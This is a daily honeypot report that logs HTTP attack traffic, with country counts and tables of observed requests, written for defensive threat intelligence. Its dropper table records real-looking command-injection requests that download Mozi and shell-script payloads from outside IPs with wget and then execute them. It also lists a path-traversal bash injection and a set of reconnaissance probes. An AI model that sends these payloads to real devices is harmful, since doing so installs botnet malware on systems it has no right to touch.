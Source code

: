 ```yaml
---
title: "Report: 2025-04-10 "
date: 2025-04-10
desciption: "Report: 2025-04-10" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-10 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 15 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2101 requests were recorded during the day, originating from 3 different countries, with a peak of 467 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| BG               | Germany            |
| MY               | Australia          |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                     |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.230.66.8   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.8:11316/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                 |
| 185.36.81.82  | GET /shell?wget+http://37.221.93.64/bins/abrissy.sh+-O+/tmp/abrissy.sh;+chmod+%2Bx+/tmp/abrissy.sh;+/tmp/abrissy.sh HTTP/1.1                                                |
| 58.209.9.130  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://58.209.9.130:59445/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                           |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  47 |                     3 | GET /?UrkCEO/edit&theme=margot&squelette=../../../../../../../..//bin/bash%20-c%20%27ping%20-c%201%2031.15.17.163%27&style=margot.css HTTP/1.1                                                                                                                                                                                                    |
| 264 |                     2 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xA8\x84\xF7\x7F\x00\x00\x10\xF5_jM\x00\x00\x00\xE0\x81\xCD\x84\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 309 |                     1 | GET http://xxx.xxx.xxx.xxx/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 311 |                     1 | GET /wordpress HTTP/1.1                                                                                                                                                                                                                                                                                                                           |
| 312 |                     1 | GET /wp HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 313 |                     1 | GET /blog HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 314 |                     1 | GET /new HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 315 |                     1 | GET /old HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 317 |                     1 | GET /main HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 318 |                     1 | GET /testing HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 367 |                     1 | HEAD /wp-login.php HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 388 |                     1 | GET /odinhttpcall1744293958 HTTP/1.1                                                                                                                                                                                                                                                                                                              |
| 390 |                     1 | GET /OdinHttpCall1744293958 HTTP/1.1                                                                                                                                                                                                                                                                                                              |
| 407 |                     1 | GET /Odin/http/call1744293958 HTTP/1.1                                                                                                                                                                                                                                                                                                            |
| 452 |                     1 | GET /bad%20ip%2C/Tr%69nity.php%2ebakup HTTP/1.0                                                                                                                                                                                                                                                                                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   467 | GB                 |
|  1 |                   404 | NL                 |
|  2 |                   381 | SC                 |
|  3 |                   253 | US                 |
|  4 |                   113 | BG                 |
|  5 |                    70 | PL                 |
|  6 |                    59 | MY                 |
|  7 |                    49 | DE                 |
|  8 |                    45 | IE                 |
|  9 |                    26 | CA                 |
| 10 |                    26 | HK                 |
| 11 |                    22 | CN                 |
| 12 |                    19 | CH                 |
| 13 |                    15 | RO                 |
| 14 |                    15 | JP                 |
| 15 |                    13 | SG                 |
| 16 |                    12 | IN                 |
| 17 |                    11 | NG                 |
| 18 |                    10 | GH                 |
| 19 |                    10 | FR                 |
| 20 |                    10 | UA                 |
| 21 |                     8 | RU                 |
| 22 |                     8 | PT                 |
| 23 |                     8 | VN                 |
| 24 |                     7 | BE                 |
| 25 |                     6 | IT                 |
| 26 |                     5 | KR                 |
| 27 |                     4 | TR                 |
| 28 |                     4 | AE                 |
| 29 |                     3 | TH                 |
| 30 |                     3 | TW                 |
| 31 |                     2 | ZA                 |
| 32 |                     2 | PA                 |
| 33 |                     2 | AO                 |
| 34 |                     1 | IR                 |
| 35 |                     1 | ES                 |
| 36 |                     1 | MC                 |
| 37 |                     1 | AR                 |
| 38 |                     1 | LT                 |
| 39 |                     1 | EE                 |
| 40 |                     1 | ID                 |
| 41 |                     1 | CZ                 |
| 42 |                     1 | PK                 |
